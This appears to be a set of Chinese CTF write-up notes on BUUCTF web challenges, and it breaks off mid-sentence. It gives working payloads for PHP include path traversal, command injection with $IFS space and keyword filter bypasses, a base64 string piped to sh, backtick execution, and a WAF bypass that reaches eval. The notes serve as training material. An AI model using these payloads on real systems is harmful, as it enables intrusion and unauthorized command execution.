

1.[HCTF]BUUCTF_warmup
查看源码发现source.php，访问发现是代码审计
1.PHP mb_substr()函数：
<?php echo mb_substr("菜鸟教程", 0, 2); // 输出：菜鸟 ?>
返回字符串的一部分
2.PHP mb_strpos()
查找字符串在另一个字符串中首次出现的位置
3.PHP $_REQUEST是用于收集HTML表单提交的数据，PHP $_REQUEST属于PHP的超级全局变量
4.payload:include source.php(或hint.php)?/../../../../ffffllllaaaagggg
include $_REQUEST['file'];中使用了include,为什么路径这样写，是因为我们的参数是有/../../../../这样的路径，所以符合最后一段话如果定义了路径，就会忽略/前的字符串而去找/../../../../ffffllllaaaagggg这个文件，php中include的用法
2.[GXYCTF2019]Ping Ping Ping
题目给了/?ip=后面应该是我们想要执行的语句。先ping一下:127.0.0.1;ls发现可以执行语句；
试试payload1:cat flag.php发现空格被过滤了；
#### 空格过滤
- ${IFS}替换
- $IFS$1替换
- ${IFS替换
- %20替换
- <和<>重定向符替换
- %09替换
一个个地试，发现{}被过滤了，同时flag也被过滤了，这时去看看index.php发现源码出来了；
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
die("fxck your symbol!");
} else if(preg_match("/ /", $ip)){
die("fxck your space!");
} else if(preg_match("/bash/", $ip)){
die("fxck your bash!");
} else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
die("fxck your flag!");
}
$a = shell_exec("ping -c 4 ".$ip);
echo "
";
print_r($a);
}
?>
发现很多东西都被过滤了，尝试以下变量拼接（太菜了，这个没看过……其实这篇笔记很多都是参考别人的），payload2:?ip=1;a=g;cat$IFS$1fla$a.php;查看源码即可看到flag
其他姿势
1.base64编码+管道符
payload3:echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
用base64进行编码，再用命令进行解读。Y2F0IGZsYWcucGhw是cat flag.php的base64编码，用base64 -d命令执行
=》绕过匹配可以用单引号和双引号，反斜杠，以及$1、$2、$@等绕过（前面的被过滤了……），eg：c$1at gh$@twf01.txt
cat被过滤
(1)more:一页一页的显示档案内容
(2)less:与 more 类似，但是比 more 更好的是，他可以[pg dn][pg up]翻页
(3)head:查看头几行
(4)tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
(5)tail:查看尾几行
(6)nl：显示的时候，顺便输出行号
(7)od:以二进制的方式读取档案内容
(8)vi:一种编辑器，这个也可以查看
(9)vim:一种编辑器，这个也可以查看
(10)sort:可以查看
(11)uniq:可以查看
(12)file -f:报错出具体内容
内敛绕过
payload4：?ip=127.0.0.1;cat$IFS$1`ls`
内敛，将反引号内命令的输出作为输入执行。
3.[RoarCTF]Easy Calc
打开发现是一个计算器，右键查看源码提示有防火墙，还发现有另外一个calc.php文件，访问可以看到“源码”；
$('#calc').submit(function(){
$.ajax({
url:"calc.php?num="+encodeURIComponent($("#content").val()),
type:'GET',
success:function(data){
$("#result").html(`<div class="alert alert-success">
<strong>答案:</strong>${data}
</div>`);
},
error:function(){
alert("这啥?算不来!");
}
})
return false;
})
<?php
error_reporting(0);
if(!isset($_GET['num'])){
show_source(__FILE__);
}else{
$str = $_GET['num'];
$blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
foreach ($blacklist as $blackitem) {
if (preg_match('/' . $blackitem . '/m', $str)) {
die("what are you want to do?");
}
}
eval('echo '.$str.';');
?>
先构造payload：?num=phpinfo();发现汇报错（这应该就是WAF），然后在num的前面加上空格payload：? num=phpinfo();发现可以成功；
scandir("/")
接下来用scandir("")来扫描目录，但是上面代码已经把"/“过滤了，使用chr(47)来绕过，发现flagg文件。
接下来用file_get_contents()读取文件payload：? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
（即file_get_contents(/flagg)）
4.[极客大挑战]Http
一打开发现是一个介绍页面，按f12看到“氛围”那里有Secret.php，点击进去。

提示It doesn't come from 'https://www.Sycsecret.com'，显然，属于修改reffer请求头的类型，接下来也一样，要求本地访问（X-Forwarded-For）和规定的浏览器（Syclover），用了